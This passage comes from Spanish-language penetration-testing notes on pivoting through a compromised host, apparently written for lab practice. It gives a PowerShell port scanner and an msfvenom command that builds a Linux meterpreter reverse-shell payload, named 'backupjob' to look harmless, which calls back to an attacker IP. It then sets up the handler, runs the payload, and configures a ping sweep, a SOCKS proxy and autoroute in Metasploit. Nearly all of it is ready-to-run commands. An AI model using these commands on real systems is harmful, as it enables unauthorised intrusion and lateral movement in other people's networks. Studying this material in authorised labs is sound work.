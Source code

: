 ####  powershell
Podemos encontrar listas con los puertos más comunes [aquí](https://gist.github.com/cihanmehmet/2e383215ea83e08d01478446feac36d8#top-1000-tcp-ports-1)
```powershell
$target = "172.16.5.25"
# Debemos tener un archivo sparado por líneas con los puerto más comunes
$ports = Get-Content "ports.txt"

$ports | % { try { $tcpClient = New-Object Net.Sockets.TcpClient; if ($tcpClient.ConnectAsync($target, $_).Wait(200)) { $tcpClient.Close(); "Port $_ is open" } } catch {} }
```
## Meterpreter
### Conectar a máquina pivote
Suponiendo un escenario en el que la máquina pivote es una máquina linux podemos hacer lo siguiente: 
- Crear un payload para la máquina pivote
	```bash
	msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
	```
- Configurar y empezar con el handler
	```bash
	msfconsole
	msf6 > use exploit/multi/handler
	msf6 > set lport 8080
	msf6 > set lhost 0.0.0.0
	msf6 > set payload linux/x64/meterpreter/reverse_tcp
	msf6 > run	
	```
- Ejecutar el payload en la máquina pivote
	```bash
	chmod +x backupjob
	./backupjob
	```
### Ping sweep
```bash
meterpreter > use post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```
### Configurar proxy SOCKS
```bash
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
msf6 auxiliary(server/socks_proxy) > run
# podemos comprobar que el proxy está corriendo escribiendo 
msf6 auxiliary(server/socks_proxy) > jobs
```
Después de esto, habría que comprobar que tenemos la siguiente línea en `/etc/proxychains.conf`
```bash
socks4 127.0.0.1 9050
```
(Según la versión del socks habría que poner `socks5` en lugar de `socks4`)
### Crear rutas con `autoroute`
La configuración solo tendrá efecto dentro del propio `metasploit`
#### Desde msfconsole con sesión
```bash
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```